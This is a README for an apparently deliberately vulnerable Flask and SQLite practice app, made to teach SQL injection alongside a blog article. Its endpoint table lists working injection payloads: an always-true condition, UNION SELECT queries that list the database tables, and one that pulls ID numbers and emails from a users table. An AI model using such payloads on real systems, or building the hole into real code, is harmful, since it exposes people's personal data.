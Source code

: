 # This code was cloned from <a href="https://github.com/guilatrova/flask-sqlinjection-vulnerable.git">This repo</a>. I made a copy of this code because I wanted to have multiple unsave code examples in the same repo.

A detailed article about this code is posted <a href="https://guicommits.com/how-sql-injection-attack-works-with-examples/">here</a>

# Flask Vulnerable to SQL Injection 💉🔓

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)
[![try/except style: tryceratops](https://img.shields.io/badge/try%2Fexcept%20style-tryceratops%20%F0%9F%A6%96%E2%9C%A8-black)](https://github.com/guilatrova/tryceratops)
[![Open in Visual Studio Code](https://open.vscode.dev/badges/open-in-vscode.svg)](https://open.vscode.dev/guilatrova/flask-sqlinjection-vulnerable)

---

The purpose of this repository is to allow us to explore an API vulnerable to SQL Injection (using Python, Flask, and SQLite).

You're free to play with it as is, but you might have more fun doing it alongside me in a blog post: https://blog.guilatrova.dev/how-sql-injection-attack-works-with-examples/.

[![Open in Gitpod](https://gitpod.io/button/open-in-gitpod.svg)](https://gitpod.io/#https://github.com/guilatrova/flask-sqlinjection-vulnerable/)

You can play with the following endpoints (considering you're running on localhost):

| Endpoint                                                                                                                                                                                                                                                                                                                      | Description                                      |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| [/challenges/111.111.111-11](http://localhost:5000/challenges/111.111.111-11)                                                                                                                                                                                                                                                 | Expected usage                                   |
| [/challenges/' or '1' = '1](http://localhost:5000/challenges/'%20or%20'1'%20=%20'1)                                                                                                                                                                                                                                           | Vulnerability proof                              |
| [/challenges/' AND '1' = '2' UNION SELECT name FROM sqlite_master WHERE type ='table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%20='table'%20AND%20name%20NOT%20LIKE%20'sqlite_%)                                   | Breaks server                                    |
| [/challenges/' AND '1' = '2' UNION SELECT 'table_name', name FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20'table_name',%20name%20FROM%20sqlite_master%20WHERE%20type%20=%20'table'%20AND%20name%20NOT%20LIKE%20'sqlite_%) | Queries all tables and fixes broken server       |
| [/challenges/' AND '1' = '2' UNION SELECT cpf, email FROM users; --](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20cpf,%20email%20FROM%20users;%20--)                                                                                                                                           | Use union select to query data from other tables |
